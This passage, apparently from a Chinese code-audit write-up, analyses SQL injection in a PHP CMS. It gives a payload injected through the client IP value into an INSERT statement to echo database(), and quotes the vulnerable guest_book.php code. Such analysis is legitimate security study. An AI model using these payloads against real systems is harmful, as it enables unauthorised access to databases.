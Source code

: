 - [x] 利用comment参数回显

查询到 comment参数存在回显

![](content输出.png)

通过控制参数getip(),拼接语句，使得INSERT INTO 插入2次语句，利用comment回显。

payload

```
1','1'),('','1','1','1','6',(database()),'1','1
```

实际执行语句为

```
"INSERT INTO ".table('comment')." (com_id, post_id, user_id, type, mood, content, pub_date, ip, is_check) 
 			VALUES ('', '$id', '$user_id', '$type', '$mood', '$content', '$timestamp', '1','1'),('','1','1','1','6',(database()),'1','1’, '$is_check')";
```

这里我们执行了两次查询。第二个语句才第六个参数$content才是我们利用的地方。

![](XFF注入.png)

ps，因为第二个语句的大多数值是自己输入，所以时间为默认值，要往下面拖才看的到，并不是在顶层。

### guest_book.php处注入

位置：**guest_book.php**



关键代码

```
//$online_ip参数定义：include/common.inc.php 处$online_ip = getip(); 
elseif ($act == 'send')
{
	$user_id = $_SESSION['user_id'] ? $_SESSION['user_id'] : 0;
	$rid = intval($_POST['rid']);
 	$content = !empty($_POST['content']) ? htmlspecialchars($_POST['content']) : '';
 	$content = nl2br($content);
 	if(empty($content))
 	{
 		showmsg('评论内容不能为空');
 	}
	$sql = "INSERT INTO " . table('guest_book') . " (id, rid, user_id, add_time, ip, content) 
			VALUES ('', '$rid', '$user_id', '$timestamp', '$online_ip', '$content')";
	$db->query($sql);
	showmsg('恭喜您留言成功', 'guest_book.php?page_id='.$_POST['page_id']);
}
```
